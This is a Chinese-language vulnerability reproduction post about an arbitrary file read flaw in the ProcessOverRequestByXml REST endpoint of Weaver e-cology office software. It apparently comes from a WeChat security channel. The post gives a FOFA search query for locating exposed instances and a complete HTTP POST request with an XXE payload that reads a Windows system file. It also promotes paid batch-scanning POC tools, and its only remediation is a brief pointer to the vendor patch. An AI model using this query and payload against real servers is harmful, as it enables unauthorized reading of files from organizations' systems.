 #  泛微e-cology ProcessOverRequestByXml接口存在任意文件读取漏洞   
南风漏洞复现文库  南风漏洞复现文库   2024-04-11 23:45  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 泛微e-cology ProcessOverRequestByXml接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
泛微e-cology依托全新的设计理念,全新的管理思想为中大型组织创建全新的高效协同办公环境。  
## 2.漏洞描述  
  
泛微e-cology依托全新的设计理念,全新的管理思想。 为中大型组织创建全新的高效协同办公环境。 智能语音办公,简化软件操作界面。 身份认证、电子签名、电子签章、数据存证让合同全程数字化。泛微e-cology ProcessOverRequestByXml接口存在任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
泛微e-cology  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPeaCQ6lxOcVVnIfxr7sU3sjnL6TEA5apBOicCkV4zZUf59giaMpgfgoXQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
泛微e-cology ProcessOverRequestByXml接口存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="/js/ecology8" || body="wui/common/css/w7OVFont_wev8.css" || (body="weaver" && body="ecology") || (header="ecology_JSessionId" && body="login/Login.jsp") || body="/wui/index.html" || body="jquery_wev8" && body="/login/Login.jsp?logintype=1"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/rest/ofs/ProcessOverRequestByXml  
  
漏洞数据包：  
```
POST /rest/ofs/ProcessOverRequestByXml HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: 127.0.0.1
Content-Type: application/xml
Content-Length: 146

<?xml version="1.0" encoding="utf-8" ?><!DOCTYPE test[<!ENTITY test SYSTEM "file:///c:/windows/win.ini">]><reset><syscode>&test;</syscode></reset>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPK8o0bbowreiacDhDbrpLia2dqOJ3icSmibMEapGjrHCTVRqo8xOIvAYoRA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPiaefydDicEjFO8spVsic6NdNDvgAia8mWTjUBu7sz6Koictk9u5GpWCNeLA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPNsgHSwZjN5UHdY2xFo2YWiaJwqB8KAYXQkm5gy1LtRr2y18nFwwlrkQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPbTTRKkyah5r5dTjYK6P0I2uYFMnhl7F1iaFVJJ0MrBKKvJncDELxclw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPY0odmDaru8PqCq7SGw8zhMDK8O2GQibQmiaCaAuXic7Y2LIMdWrD2xC5g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggP2RPJQasVNwPllHYIQK5smIEbcvtRznA28Xm9vG8zZszickb3oeakV7Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3YhmerYemFP4AQLlYlWjggPqeL1etiakSyCkkspA9wxBpn72l1OlNZ7zngRfABDTK6BrcWU7bBZl0w/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系官方打补丁：https://www.weaver.com.cn/e9/  
## 8.往期回顾  
  
[科荣AIO ReadFile存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486137&idx=1&sn=0458efb9a23f7e3a9d497bd77a4d3c7a&chksm=974b87bea03c0ea8f74df9eebf388808ef260af92abd6a592904328b49913c968de9c70fd227&scene=21#wechat_redirect)  
  
  
[浙大恩特客户资源管理系统RegulatePriceAction.entsoft;.js接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486123&idx=1&sn=20bcfc57f151f3d39984f1a579e7e172&chksm=974b87aca03c0ebae04a1b736e04f05a1d0f3a739a41774f2b2223cab29b7b5ae7c3e7c03774&scene=21#wechat_redirect)  
  
  
  
  
